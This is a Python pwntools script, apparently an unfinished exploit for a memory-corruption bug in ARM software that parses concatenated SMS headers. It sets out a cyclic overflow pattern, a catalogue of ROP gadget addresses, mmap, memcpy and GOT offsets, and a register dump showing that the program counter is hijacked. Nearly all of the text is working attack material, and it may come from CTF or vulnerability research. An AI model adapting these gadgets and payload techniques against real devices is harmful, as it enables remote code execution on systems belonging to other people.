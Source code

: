 ```python

from pwn import *

def encode_part(ref_num, data, CSMS=0x17, max_part=3):  
   assert max_part <= 3  
   header = "\x05\x00\x03" + chr(CSMS) + chr(max_part) + chr(ref_num)  
   return header+data

c =
"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa"

#r3 load  
# 0x0001275e : ldr r3, [r5, #0x20] ; cmp r3, r4 ; bne #0x12760 ; ldrd r4, r5,
[sp] ; add sp, #8 ; pop {r6, pc}  
r3load = 0x0001275e  
#0x000128fe : pop {r5, pc}  
r5pop = 0x000128fe  
#0x000118c6 : pop {r4, pc}  
r4pop = 0x000118c6  
#0x000172a6 : pop {r2, r3, r4, pc}  
r234pop = 0x000172a6  
#0x00016c12 : pop {r1, r4, pc}  
r14pop = 0x00016c12  
#0x00015c24 : pop {r0, r3, pc}  
r03pop = 0x00015c24  
#0x00012b4e : pop {r2, pc}  
r2pop = 0x00012b4e  
#0x000111c4 : pop {r3, pc} not thumb  
r3popnothumb = 0x000111c4  
#0x00011f52 : blx r4  
blxr4 = 0x00011f52  
#       void *mmap(void *addr, size_t len, int prot, int flags, int fildes,
off_t off);  
mmap = 0x00011240  
mmap = 0x00013E0C +1  
memcpy = 0x00011410  
memcpy_got = 0x000320C0  
#0x0001fe36 : add r3, sp, #0x2b8  
addr3sp = 0x0001fe36

#0x000176c0 : add r0, sp, #0x1a0 ; movs r1, r0 ; bx lr  
#0x000122c0 : ldm.w ip, {r5, sb, sl, lr} ; add sp, #0x10 ; pop {r4, pc}  
ctrlr = 0x000122c0  
#0x00014b5a : ldr lr, [sp], #4 ; b.w #0x1263e  
setlrjmpr3 = 0x00014b5a  
"""  
Register state when we take control of PC  
r0             0x0                 0  
r1             0x38024             229412  
r2             0x35a70             219760  
r3             0x35a70             219760  
r4             0x61716161          1634820449  
r5             0x61726161          1634885985  
r6             0x61736161          1634951521  
r7             0x61746161          1635017057  
r8             0x61756161          1635082593  
r9             0x61766161          1635148129  
r10            0x61776161          1635213665  
r11            0x61786161          1635279201  
r12            0x7                 7  
sp             0x7efe9b38          0x7efe9b38  
lr             0x3f                63  
```